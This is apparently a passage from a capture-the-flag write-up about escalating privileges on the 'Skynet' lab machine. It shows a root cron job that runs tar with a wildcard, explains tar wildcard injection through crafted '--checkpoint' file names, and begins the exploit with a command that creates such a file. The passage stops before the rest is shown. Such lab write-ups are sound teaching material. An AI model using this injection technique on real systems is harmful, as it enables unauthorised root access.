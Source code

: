 For me this privilege escalation phase was so difficult, i never seen something like this, but it was so fun learning how to execute it.

After checking the common ways to **PrivEsc** nothing seems to work until i checked if there was any cron job.

```bash
www-data@skynet:/$ cat /etc/crontab 
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

There is a `bash` script at a folder named `backups` at **Miles** home directory, let's check what perms do we have.

```bash
www-data@skynet:/home/milesdyson/backups$ ls -l 
total 4576
-rwxr-xr-x 1 root root      74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root root 4679680 Jan  9 18:41 backup.tgz
```

We can read & execute the `backup.sh` script, so let's see what it does.

```bash
www-data@skynet:/home/milesdyson/backups$ cat backup.sh 
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

It goes to `/var/www/html` and make a `.tgz` compressed file of all the contents of `/var/www/html` at  `/home/milesdyson/backups/backup.tgz`.

Here it comes why i found this **PrivEsc** that hard, we can't modify/impersonate any file/user, to execute arbitrary code as `root`.

The trick lies in using the wildcard (`*`) to include all files in a folder when running the `tar` command. In simple terms, we can create files with names that mimic `tar` command options, effectively injecting malicious parameters into the command. By leveraging two specific options, `--checkpoint` and `--checkpoint-action`, we can execute arbitrary commands. Let’s dive into a practical example to make it easier to understand.

At first we need to create two files named as the arguments we need to execute arbitrary commands.

```bash
echo "" > '--checkpoint=1'  
```
